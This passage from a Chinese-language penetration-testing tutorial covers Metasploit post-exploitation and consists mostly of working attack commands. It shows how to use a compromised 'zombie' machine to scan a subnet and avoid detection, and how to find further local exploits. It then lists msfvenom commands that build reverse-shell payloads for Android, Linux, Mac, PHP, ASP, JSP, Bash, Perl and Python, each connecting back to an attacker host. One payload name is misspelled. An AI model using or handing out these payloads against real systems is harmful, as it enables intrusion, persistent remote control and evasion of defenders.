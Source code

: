 ```shell
```

### 2.19.5 基于post进行后渗透测试(重点！！！)

```shell
在上述步骤中拿到meterpreter后，执行相关命令，如：
run post/windows/gather/arp_scanner RHOST=192.168.1.0/24
来让受控肉鸡帮助我们进行系统扫描，以免自身被发现。如：
run post/multi/recon/local_exploit_suggester (寻找受控机器还有什么漏洞)

...
```

### 2.19.5 其他端的生成方式

```shell
安卓app:

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888 -o ~/Desktop/test2.apk

Linux:

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f  elf > shell.elf

Mac:

msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f macho >  shell.macho

PHP：

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.20.27 LPORT=4444 -f raw -o test.php

ASP:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888  -f asp > shell.asp

ASPX：

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888  -f  aspx > shell.aspx

JSP:

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f  raw > shell.jsp

Bash：

msfvenom -p cmd/unix/reverse_bash LHOST=192.168.10.27 LPORT=8888 -f   raw > shell.sh

Perl

msfvenom -p cmd/unix/reverse_perl LHOST=192.168.10.27 LPORT=8888 -f raw > shell.pl

Python

msfvenom -p python/meterpreter/reverser_tcp LHOST=192.168.10.27 LPORT=8888 -f   raw > shell.py
```
